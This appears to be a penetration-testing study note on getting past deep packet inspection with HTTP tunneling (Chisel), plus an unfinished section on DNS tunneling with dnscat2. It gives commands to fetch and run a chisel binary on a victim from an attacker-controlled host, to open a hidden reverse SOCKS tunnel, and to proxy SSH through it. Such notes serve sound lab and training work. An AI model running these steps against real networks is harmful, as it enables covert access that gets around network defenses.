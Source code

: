 Deep packet inspection devices may be configured to only allow specific transport protocols into, out of, or across the network. For example, a network administrator could create a rule that terminates any outbound SSH traffic. If they implemented that rule, all connections that use SSH for transport would fail, including any SSH port redirection and tunneling strategies we had implemented.
# HTTP Tunneling
If DPI is blocking a lot of stuff, maybe it lets HTTP through?
## Chisel
Chisel does HTTP Tunneling.
### Steps
1. Transfer chisel to target:
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
```
```bash
gunzip chisel_1.8.1_linux_amd64.gz
```
```bash
python -m http.server 80
```
On target:
```bash
wget $(ATTACKER_IP)/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
2. Run chisel
Kali:
```bash
chisel server --port 8080 --reverse
```
Victim machine:
```bash
/tmp/chisel client $(ATTACKER_IP):8080 R:socks > /dev/null 2>&1 &
```
3. SSHing through chisel
```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' $(SSH_USER)@$(REMOTE_IP)
```
REMEMBER TO ADD TO /etc/proxychains4.conf:
```
socks5 127.0.0.1 1080
```
# DNS Tunneling
DPI probably lets DNS through...

Requirements:
* Registered Domain
* Setting up the Authoritative Name Server
* Told the domain registrar that this server should be known as the authoritative name server for the registered domain zone.
## dnscat2

